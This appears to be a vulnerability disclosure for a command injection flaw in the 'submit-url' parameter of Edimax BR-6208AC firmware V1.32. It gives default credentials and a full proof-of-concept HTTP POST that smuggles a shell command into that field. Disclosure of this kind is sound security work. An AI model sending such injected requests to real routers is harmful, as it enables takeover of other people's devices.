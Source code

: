 ## **Description**

A command injection and buffer overflow vulnerability was discovered in the Edimax BR-6208AC firmware version ​**V1.32**. The vulnerability arises from the improper input validation of the `submit-url` parameter in the 'formAccept' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: BR-6208AC
- ​**Version**: V1.32

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/BR-6208AC_1.32.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formAccept' is below:
![vulner_code.png](./img/vulner_code.png)
- ​**websGetVar** retrieves POST parameters 'submit-url'.
- **system()** is used without check, resulting a command injection in this place

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formAccept HTTP/1.1  
Host: 192.168.2.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 63
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==  
Connection: close  
Referer: http://192.168.2.1/wireless_basic.asp
Upgrade-Insecure-Requests: 1  
  
submit-url=echo aaaccept>/poc.txt;
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)